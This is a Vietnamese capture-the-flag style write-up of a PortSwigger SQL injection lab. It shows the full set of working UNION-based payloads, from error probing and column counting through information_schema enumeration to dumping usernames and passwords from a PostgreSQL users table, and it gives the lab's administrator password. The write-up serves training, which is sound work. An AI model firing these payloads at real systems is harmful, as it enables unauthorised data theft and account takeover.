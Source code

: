 # Write-up: SQL injection attack, listing the database contents on non-Oracle databases

### Tổng quan
Ghi lại quá trình khai thác SQLi để lấy thông tin tài khoản `adminstrator` rồi đăng nhập.

### Mục tiêu
Đăng nhập dưới tên `administrator`.

### Công cụ:
- BurpSuite Community
- Firefox Browser

### Các bước thực hiện
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `category` trong URL (`filter?category=Gifts`) và thêm dấu `'` để kích hoạt lỗi SQL:
  - **Kết quả:** xuất hiện lỗi SQL, xác nhận lỗ hổng
    ![lỗi](./images/error.png)

- Xác định số cột trả về bằng:
  - Payload:
    ```
    'ORDER BY 3--
    ```
  - **Kết quả**: xác nhận có 2 cột do payload trên gây ra lỗi
    ![cột](./images/column.png)

- Xác định version của Database:
  - Payload:
    ```
    'UNION SELECT NULL,version()--
    ```
  - **Kết quả** DB là loại PostgreSQL
    ![db](./images/version.png)

2. **Tạo Payload và Khai thác**
- Tạo payload kiểu tấn công UNION lấy tên bảng hiện tại đang sử dụng:
  ```
  GET /filter?category=Gifts'UNION+SELECT+table_name,NULL+FROM+information_schema.tables+WHERE+table_schema+=+'public'-- HTTP/2
  ```
  - **Kết quả**: trả về tên bảng `users_sktknn`
  ![table](./images/tb_user.png)

- Tạo payload kiểu tấn công UNION lấy tên cột trong bảng `users_sktknn`
    ```
    GET /filter?category=Gifts'UNION+SELECT+string_agg(column_name,','),NULL+FROM+information_schema.columns+WHERE+table_name='users_sktknn'-- HTTP/2
    ```
    - **Kết quả**: trả về tên các cột `username_tpjeoz`, `password_rjkqop`.
    ![tên cột](./images/column_user.png)

- Tạo payload kiểu tấn công UNION lấy thông tin trong các cột `username_tpjeoz`, `password_rjkqop`
    ```
    GET /filter?category=Gifts'+UNION+SELECT+string_agg(username_tpjeoz,+','),+string_agg(password_rjkqop,+',')+FROM+users_sktknn--
    ```
    - **Kết quả**: trả về thông tin các user trong bảng  `users_sktknn` trong đó có user `administrator`
    ![dât](./images/dt_user.png)

3. **Kết quả**
- Login bằng tài khoản `administrator` : `icz02qt9ghwv9qq8elm6` và hoàn thành bài lab.
    ![admin](./images/solve.png)

### Bài học rút ra
- Nâng cao kĩ năng UNION để trích xuất dữ liệu đa cột và lấy thông tin phiên bản.
- Hiểu cách sử dụng bảng information_schema.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng SQL injection và sử dụng Burp Suite. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.